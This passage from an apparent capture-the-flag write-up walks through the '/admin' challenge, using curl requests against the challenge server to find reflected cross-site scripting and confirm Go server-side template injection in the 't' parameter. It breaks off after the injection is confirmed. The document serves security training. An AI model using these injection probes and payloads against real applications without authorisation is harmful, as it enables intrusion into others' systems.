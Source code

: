 (So the server is using Go huh?)

## :six: /admin

This one was probably the hardest in this CTF and the most fun
too! From what I heard during the event, a lot of people were stuck at this
final challenge.

With a challenge name like `/admin`, we can assume that we have to keep working
on the `/admin` endpoint from the previous challenge. So far we've played around
 with the `image` parameter, but we haven't used the `name` or the `t` parameter
yet.

```bash
$ curl http://admin-h1-202.herokuapp.com/admin?t=test123&name=two&image=http://google.com
test123
```

Since the `t` parameter is being reflected in the response, we'll start there.

I initially started by testing with a `<script>alert(1)</script>` payload
in the parameter. It worked, no filtering whatsoever. I then attempted
with a single `<script>` tag, which failed with the following response :

```
{"error":"Oops! Try again :)"}
```

Moving on, I noticed that HTML comments (`<!-- -->`) whould just disappear
from the response!

```bash
$ curl http://admin-h1-202.herokuapp.com/admin?t=test%3C!--comment--%3E&name=two&image=http://google.com
test
```

So the application will somehow render our `t` parameter, removing comments. This makes me
think of templates, which would make sense for a **t** parameter.

Let's test this out :

```bash
{% raw %}
$ curl http://admin-h1-202.herokuapp.com/admin?t={{%22test%22}}&name=two&image=http://google.com
test
{% endraw %}
```

7*7 won't work for some reason, but "test" will. So what template engine is this?
Considering that the `User-Agent` used for the last challenge is `Go-http-client/1.1`,
it would make sense that we're dealing with Go templating : [https://golang.org/pkg/text/template/](https://golang.org/pkg/text/template/).

We can confirm this by testing one of the examples :

```bash
{% raw %}
$ curl http://admin-h1-202.herokuapp.com/admin?t={{printf+%22%25q%22+(print+%22out%22+%22put%22)}}&name=two&image=http://google.com
"output"
{% endraw %}
```
